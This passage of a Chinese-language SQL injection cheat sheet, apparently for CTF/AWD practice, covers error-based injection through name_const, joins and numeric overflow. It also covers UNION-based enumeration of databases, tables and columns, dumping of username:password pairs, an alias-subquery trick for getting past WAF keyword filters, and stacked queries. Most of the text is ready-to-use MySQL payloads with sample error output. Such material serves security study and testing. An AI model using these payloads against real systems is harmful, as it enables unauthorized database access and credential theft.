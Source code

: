 ```sql
select* from (select*from(select name_const(version(),0))a join(select name_const(version(),0))b)c
version()改成database()或者user()就不行
 ```
join函数爆列名
```sql
mysql> select * from(select * from test a join test b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select * from(select * from test a join test b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```
## **2.5 整数溢出报错**
测试发现在mysql5.5.47可以在报错中返回查询结果：而在mysql>5.5.53时，则不能返回查询结果。
```sql
mysql> select exp(~(select*from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```
利用以下语句能爆出所有字段
```SQL
SELECT 2* if((SELECT * from (select * from users) as x limit 1) > (SELECT * from users limit 1), 18446744073709551610, 18446744073709551610);
[Err] 1690 - BIGINT UNSIGNED value is out of range in '(2 * if(((select
 `awd_bank`.`users`.`id`,`awd_bank`.`users`.`username`,`awd_bank`.`users`.`password`,`awd_bank`.`users`.`money`
from `awd_bank`.`users` limit 1) > (select
`awd_bank`.`users`.`id`,`awd_bank`.`users`.`username`,`awd_bank`.`users`.`password`,`awd_bank`.`users`.`money`
from `awd_bank`.`users` limit 1)),18446744073709551610,18446744073709551610))'
```
# **3 UNION联合查询注入**
当页面存在明显数据查询回显的时候，同时又存在 SQL注入漏洞，这时候可尝试通过union查询注出需要的数据。比如：
?id=1 注入，首先通过order by猜测列数，?id=1' order by 5%23，最后发现order by 后为3的时候不报错，因此可以判断改SQL语句查询的结果有3列。
```sql
爆库
id=0' union select 1,database(),3 %23
爆表
?id=0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() %23
爆字段
?id=0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' %23
爆字段值
0' union select 1,group_concat(username,0x3a,password),3 from users %23
```
已知某个地方有注入，waf拦截了information_schema、columns、tables、database、schema等关键字或函数，我们如何去获取当前字段名呢？
 
常见的做法有利用union搭配别名子查询，在不知道字段的时候进行注入。

例如：
```sql
select * from users where id =1 union select (SELECT e.3 from(SELECT * from (SELECT 1)a,(SELECT 2)b,(SELECT 3)c,(SELECT 4)d union SELECT * from users)e LIMIT 1 OFFSET 1)f,(select 1)g,(select 1)h,(select 1)i;
```
# **4 堆叠注入**
原理：利用;结束语句并插入自己的sql语句<br>
适用：
Mysql、SqlServer、Postgresql(Oracle不行)
只有当调用数据库函数支持执行多条sql语句时才能够使用，例如mysqli_multi_query()函数就支持多条sql语句同时执行。PDO默认支持多语句查询，如果php版本小于5.5.21或者创建PDO实例时未设置PDO::MYSQL_ATTR_MULTI_STATEMENTS为false时可能会造成堆叠注入。
```sql
-1;show tables%23
-1';show columns from `1919810931114514`%23
```
